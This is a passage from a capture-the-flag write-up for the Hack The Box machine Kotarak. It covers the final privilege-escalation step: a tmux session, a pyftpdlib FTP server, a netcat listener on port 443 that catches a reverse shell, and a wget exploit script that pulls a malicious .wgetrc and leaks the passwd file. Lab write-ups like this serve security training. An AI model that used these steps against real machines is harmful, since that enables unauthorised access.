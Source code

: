 As I will need to create the **FTP** server and then run the exploit on the same victim machine, I have to use `tmux` to create a session and have several panels available in the same session. I just have to open port **443** with `nc` on my attacker machine waiting for a remote connection, then I have to mount the **FTP** server with `pyftpdlib` and finally run the exploit. Waiting and watching the output shown on the screen I can see very interesting information, such as the request of the malicious **.wgetrc** file, the contents of the **passwd** file of the machine that makes the request and finally I get the **Reverse Shell**. Now that I have successfully engaged the box I can see the contents of the last flag and kill the `tmux` session.

> **Victime Machine**:

```bash
tmux new -s HTBPrivesc
# Ctrl + b + %          Split panel vertically
# Ctrl + b + "          Split panel horizontally
# Ctrl + b + o          Move panel
# Ctrl + b + ,          Rename panel name
# Ctrl + b + [          Copy mode (scroll mode)
# Ctrl + b + x          Kill panel
# Ctrl + b + d          Detach from the session

# Attacker --> tmux ---> ctrl+b -> : set prefix C-a

authbind python -m pyftpdlib -p21 -w
```

> **Attacker Machine**:

```bash
sudo nc -nlvp 443
```

> **Victime Machine**:

```bash
authbind python wget-exploit.py
# :)

tmux ls
tmux kill-session -t HTBPrivesc
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
